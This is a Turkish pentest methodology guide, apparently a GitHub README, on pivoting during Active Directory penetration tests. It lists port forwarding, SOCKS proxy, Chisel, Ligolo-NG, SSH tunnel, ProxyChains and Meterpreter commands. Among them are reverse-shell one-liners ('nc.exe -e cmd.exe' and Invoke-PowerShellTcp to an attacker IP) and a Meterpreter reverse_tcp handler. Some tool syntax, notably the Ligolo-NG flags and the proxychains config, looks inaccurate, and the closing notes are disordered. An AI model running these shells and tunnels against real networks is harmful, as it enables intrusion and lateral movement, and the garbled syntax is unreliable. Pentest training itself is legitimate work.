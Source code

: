 # Active Directory Pentest - Pivoting Safhası Metodolojisi

## Pivoting Nedir?
Pivoting, bir ağ üzerindeki bir cihazdan, başka cihazlara veya ağlara erişim elde etme işlemidir. Özellikle Active Directory (AD) pentestlerinde, bir ağın farklı bölümlerine erişim sağlamak için pivoting işlemi gerçekleştirilir. Bu rehberde, pivoting safhasında kullanılan tüm komutlar, yollar ve yöntemler detaylıca açıklanmıştır.

## Pivoting Süreci
Pivoting işlemi genellikle şu adımları içerir:

1. **Erişim Sağlama**: İlk hedef cihazda shell veya RDP gibi erişim elde edilir.
2. **Bağlantı Yönlendirme (Port Forwarding)**: İç ağda başka cihazlara erişim sağlanır.
3. **Ağ Keşfi**: Yeni hedef cihazların keşfi yapılır.
4. **Yetkilendirme (Authentication)**: Yeni cihazlara bağlantı için kimlik doğrulama işlemleri gerçekleştirilir.
5. **Saldırı ve Bilgi Çalma**: Yeni cihazlarda saldırılar gerçekleştirilir.

---

## Pivoting Komutları ve Yöntemleri

### 1. **PowerShell Kullanarak Pivoting**
#### **Komutlar ve Açıklamaları**

**1.1. Port Forwarding Yapmak için `New-SSHSession` (Posh-SSH Modülü)**
```powershell
# SSH oturumu oluştur
New-SSHSession -ComputerName "10.10.10.10" -Credential (Get-Credential)

# Port forward işlemi
New-SSHPortForward -SSHSessionId 0 -LocalPort 8888 -RemoteHost "192.168.1.10" -RemotePort 3389
```
* **Amaç**: Bir cihaz üzerindeki RDP portunu yerel makineye yönlendirmek.

**1.2. Proxy Kullanımı için `Invoke-SocksProxy`**
```powershell
# SOCKS proxy başlat
Invoke-SocksProxy -BindPort 1080
```
* **Amaç**: Proxy üzerinden diğer ağ cihazlarına bağlantı sağlamak.

**1.3. Reverse Shell için `Invoke-PowerShellTcp`**
```powershell
# Reverse Shell oluştur
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 4444
```
* **Amaç**: Uzak bir cihazdan bağlantı almak.

---

### 2. **CMD Kullanarak Pivoting**
#### **Komutlar ve Açıklamaları**

**2.1. `netsh` ile Port Forwarding**
```cmd
# Port yönlendirme kuralı ekle
netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=8888 connectaddress=192.168.1.10 connectport=3389

# Mevcut kuralları görüntüle
netsh interface portproxy show all
```
* **Amaç**: Yerel bağlantıları hedef cihaza yönlendirmek.

**2.2. Reverse Shell için `cmd`**
```cmd
# Netcat kullanarak reverse shell
nc.exe -e cmd.exe 192.168.1.100 4444
```
* **Amaç**: Uzak bir makineye erişim sağlamak.

---

### 3. **Chisel Kullanımı**
#### **Komutlar ve Açıklamaları**

**3.1. Chisel Server Başlatma (Kali Linux)**
```bash
./chisel server -p 8000 --reverse
```
* **Amaç**: Reverse bağlantıları kabul etmek.

**3.2. Chisel Client ile Bağlanma (Windows)**
```cmd
chisel.exe client 192.168.1.100:8000 R:3389:127.0.0.1:3389
```
* **Amaç**: Hedef cihazın RDP portunu yerel makineye yönlendirmek.

---

### 4. **Ligolo-NG Kullanımı**
#### **Komutlar ve Açıklamaları**

**4.1. Ligolo-NG Server Başlatma (Kali Linux)**
```bash
ligolo-ng proxy -p 8000
```
* **Amaç**: Reverse proxy server başlatmak.

**4.2. Ligolo-NG Client ile Bağlanma (Windows)**
```cmd
ligolo-ng.exe tunnel -s 192.168.1.100:8000 -t 127.0.0.1:3389
```
* **Amaç**: Hedef cihazın RDP portunu yerel makineye yönlendirmek.

---

### 5. **SSH Tunneling ile Pivoting**
#### **Komutlar ve Açıklamaları**

**5.1. Port Forwarding**
```bash
ssh -L 8888:192.168.1.10:3389 user@10.10.10.10
```
* **Amaç**: Yerel portu hedef cihazdaki bir porta yönlendirmek.

**5.2. Dinamik Proxy (SOCKS)**
```bash
ssh -D 1080 user@10.10.10.10
```
* **Amaç**: Dinamik proxy oluşturmak ve tarama işlemleri için kullanmak.

**5.3. Reverse Tunnel Oluşturma**
```bash
ssh -R 2222:127.0.0.1:22 user@192.168.1.100
```
* **Amaç**: Uzak makineden yerel makineye bağlantı sağlamak.

---

### 6. **ProxyChains Kullanımı**
#### **Komutlar ve Açıklamaları**

**6.1. ProxyChains Konfigürasyonu**
```bash
# /etc/proxychains.conf dosyasını düzenleyin
tor
```
* **Amaç**: ProxyChains ayarlarını yapmak.

**6.2. ProxyChains ile Nmap Taraması**
```bash
proxychains nmap -sT -Pn 192.168.1.0/24
```
* **Amaç**: Proxy üzerinden ağ taraması yapmak.

---

### 7. **Meterpreter Kullanarak Pivoting**
#### **Komutlar ve Açıklamaları**

**7.1. Reverse TCP Shell Açmak**
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```
* **Amaç**: Meterpreter ile shell elde etmek.

**7.2. Socks Proxy Kurmak**
```bash
use auxiliary/server/socks_proxy
set SRVPORT 1080
run
```
* **Amaç**: Proxy ile diğer cihazlara erişim sağlamak.

---

$ sudo ip tuntap add user kali mode tun ligolo

$ sudo ip link set ligolo up

@Attack Machine
./proxy -selfcert -laddr 0.0.0.0:9001

@Jump Host
agent.exe -connect kali.ip:9001 -ignore-cert

@Attack Machine
session
1
start

sudo ip route add hedef.ip.araligi/24 dev ligolo
192.168.1.3
172.16.1.0
sudo ip tuntap del dev ligolo mode tun

## Sonuç
Bu rehber, Active Directory pentestlerinde pivoting safhasında kullanılan tüm komutları ve yöntemleri kapsamaktadır. Her bir yöntem, farklı bir senaryo için uygundur ve hangi yöntemin kullanılacağına, mevcut erişim durumuna göre karar verilmelidir. Rehberi ihtiyaçlarınıza göre genişletebilirsiniz.
